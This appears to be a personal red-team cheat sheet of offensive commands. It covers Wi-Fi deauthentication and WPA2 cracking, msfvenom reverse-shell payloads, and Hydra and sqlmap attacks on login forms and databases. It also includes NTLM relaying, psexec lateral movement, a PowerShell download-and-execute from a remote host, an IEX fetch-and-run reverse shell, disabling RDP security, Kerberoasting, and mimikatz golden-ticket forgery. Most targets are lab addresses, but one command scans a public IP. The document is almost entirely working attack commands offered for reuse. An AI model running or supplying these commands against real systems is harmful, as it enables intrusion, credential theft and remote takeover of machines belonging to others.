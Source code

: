 # red_team_notes

Linux Commands
  ifconfig
  iwconfig
  pwd
  cat
  tac
  cd
  rm -rf
  rmdir
  mkdir
  updatedb
  locate
  grep
  apt-get update
  apt-get upgrade
  
Windows Commands
  hostname
  systeminfo
  whoami /groups
  whoami /all

Change MAC
  ifconfig wlan0 down
  ifconfig wlan0 hw ether 00:11:22:33:44:55
  ifconfig wlan0 up

Monitor Mode
  ifconfig wlan0 down
  airmon-ng check kill
  iwconfig wlan0 mode monitor
  ifconfig wlan0 up

SNORT
   sudo snort -c /etc/snort/snort.conf -l /var/log/snort/

Tor
  sudo service tor start

WiFi Scan
  iwconfig
  airodump-ng wlan0

Capture WPA2 Handshake
  airodump-ng --bssid [mac] --channel [ch] --write wpa2_handshake wlan0

Deauthenticate
  aireplay-ng --deauth4 -a [mac] -c [mac] wlan0

Wordlists
  /usr/share/metasploit-framework/data/wordlists/unix_users.txt
  /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
  /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
  /usr/share/wordlists/rockyou.txt
  /usr/share/wordlists/dirb/common.txt

Generate Wordlist
  crunch <min> <max> [options]

Crack WPA2
  aircrack-ng [handshake_file] -w wordlist

Nessus
  /bin/systemctl start nessusd.service
  https://kali:8834/

MITMProxy
  cd /opt/mitmproxy
  ./mitmweb

MSFVenom
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f exe > shell.exe
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f exe > shell.exe
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx > shell.aspx
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f elf > shell.elf
  msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -e x86/alpha_mixed -f python

MSFConsole
  msfconsole
  use
  set
  run
  sessions
  sessions -i [id]
  background

Hydra
  hydra -L allowed.userlist -P allowed.userlist.passwd 10.129.56.5 -V http-form-post '/login.php:Username=^USER^&Password=^PASS^&Submit=Login:S=Location'
  hydra -L usernames.txt -P passwords.txt 10.129.28.62 -V http-form-post '/admin:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:S=Location' -s 8080

Python
  python -c 'import pty;pty.spawn("/bin/bash")'
  python -m SimpleHTTPServer 8080
  python3 -m http.server 8080
  
Powershell
  powershell -c "Invoke-WebRequest -Uri 'http://10.2.8.146:8000/shell.exe' -OutFile 'c:\Windows\Temp\shell.exe'"

SQLMap
  sudo sqlmap -u http://10.10.77.108/vulnerabilities/sqli/?id=1\&Submit=Submit --cookie='PHPSESSID=pnfsn1i25k0i4af1tmvstj7m55; security=low' --dbs
  sudo sqlmap -u http://10.10.77.108/vulnerabilities/sqli/?id=1\&Submit=Submit --cookie='PHPSESSID=pnfsn1i25k0i4af1tmvstj7m55; security=low' -D dvwa --columns
  sudo sqlmap -u http://10.10.77.108/vulnerabilities/sqli/?id=1\&Submit=Submit --cookie='PHPSESSID=pnfsn1i25k0i4af1tmvstj7m55; security=low' -D information_schema --schema
  sudo sqlmap -u http://10.10.77.108/vulnerabilities/sqli/?id=1\&Submit=Submit --cookie='PHPSESSID=pnfsn1i25k0i4af1tmvstj7m55; security=low' -D dvwa --dump
  
WPScan
  wpscan --url '' --api-token='' --enumerate u/vp/vt
  
cameradar
  sudo docker run -t ullaakut/cameradar -t 91.105.153.138
  
CrackMapExec
  crackmapexec smb 10.0.2.0/24 -u user -d DOMAIN.local -p Password
  crackmapexec smb 10.0.2.0/24 -u user -d DOMAIN.local -p Password --shares
  crackmapexec smb 10.0.2.0/24 -u user -d DOMAIN.local -p Password --users
  crackmapexec smb 10.0.2.0/24 -u user -d DOMAIN.local -H HASHES --shares
  crackmapexec smb 10.0.2.0/24 -u user -H HASHES --local-auth
  
Responder
  sudo nano /etc/responder/Responder.conf
  [SMB On][HTTP On]
  sudo responder -I eth0 -dPv
  
NTLMRelayx
  sudo nano /etc/responder/Responder.conf
  [SMB Off][HTTP Off]
  sudo responder -I eth0 -dPv
  python3 ntlmrelayx.py -tf targets.txt -smb2support
  python3 ntlmrelayx.py -tf targets.txt -smb2support -i
  
psexec
  python3 psexec.py DOMAIN.local/user:Password@10.0.2.18

wmiexec
  python3 wmiexec.py DOMAIN.local/user:Password@10.0.2.18
  
smbexec
  python3 smbexec.py DOMAIN.local/user:Password@10.0.2.18
  
Evil-WinRM

rpcclient
  rpcclient -U"%" -N
  enumdomusers

enum4linux
  enum4linux -a 10.0.2.17 -u DOMAIN.local/user -p Password

smbclient
  python3 smbclient.py DOMAIN.local/user:Password@10.0.2.18
  
Load Powershell Script Remotely
  IEX (New-Object Net.WebClient).DownloadString('http://10.0.2.15:8080/Invoke-PowerShellTcp.ps1');
  
Reverse Powershell
  nc -lvnp 4444
  Invoke-PowerShellTcp -Reverse -IPAddress 10.0.2.15 -Port 4444
  
Enable RDP
  reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0 /f
  reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
  reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
  netsh advfirewall firewall set rule group="remote desktop" new enable=yes
  sc start TermService
  
RDP
  xfreerdp /u:user /d:DOMAIN.local /p:Password /v:10.0.2.18
  
PrivEsc Checks
  SharpUp.exe audit
  Import-Module .\PowerUp.ps1
  Invoke-AllChecks
  
List Processes
  Get-CimInstance -ClassName win32_service | Select Name,State,PathName,StartName | Where-Object {$_.State -like 'Running'}
  
Kerberoasting
  Rubeus.exe kerberoast /user:username /nowrap /outfile:hash.txt
  impacket-GetUserSPNs DOMAIN.local/user:Password -dc-ip 10.0.2.17 -request
  hashcat -m 13100 hash.txt rockyou.txt
  
Golden Ticket
  #mimikatz
  kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt

  .\Rubeus.exe ptt /ticket:ticket.kirbi
  klist #List tickets in memory

  Example using aes key
  kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
  
  python3 ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
  export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
  python3 psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass

